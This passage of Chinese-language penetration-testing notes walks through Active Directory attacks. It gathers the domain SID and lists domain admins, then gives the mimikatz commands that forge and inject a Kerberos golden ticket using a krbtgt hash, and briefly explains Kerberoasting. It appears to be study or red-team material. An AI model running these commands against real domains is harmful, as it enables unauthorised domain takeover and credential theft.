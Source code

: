 #### 获取基本信息

获取域 SID

```bash
wmic useraccount get name,sid
```

这里得到 administrator 的 SID 为 S-1-5-21-284927032-1122706408-2778656994-500，即表示当前域的 SID 就是 S-1-5-21-284927032-1122706408-2778656994

获取当前用户的 SID

```bash
whoami /user
```

查询域管理员账号

```bash
net group "domain admins" /domain
```

查询域名

```bash
ipconfig /all
```

#### 制作黄金票据

先将票据清空

```bash
mimikatz.exe "kerberos::purge" exit
```

生成票据

```bash
mimikatz.exe "kerberos::golden /admin:Administrator /domain:teamssix.com /sid:S-1-5-21-284927032-1122706408-2778656994 /krbtgt:d685b9c4fa2d318a9943ed68948af087 /ticket:Administrator.kiribi" exit
```

传递票据并注入内存

```bash
mimikatz.exe "kerberos::ptt Administrator.kiribi"
```

### Kerberoasting

在识别到域内的机器和域控时，一种提权方式是Kerberoasting。

> 什么是Kerberoasting？

在域环境中为用户配置环境时，比如一些数据库服务，这时候会用到SPN(服务主体名称)，它将服务和账户关联起来，用户访问特定的资源文件时，会收到这个账户ntml hash签名的Kerberos 票据。

我们拿到这个票据后可以直接离线破解。
关于这个的工具文末的参考链接中有介绍，但是用自己习惯的就好了。
[GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py)比较简单。
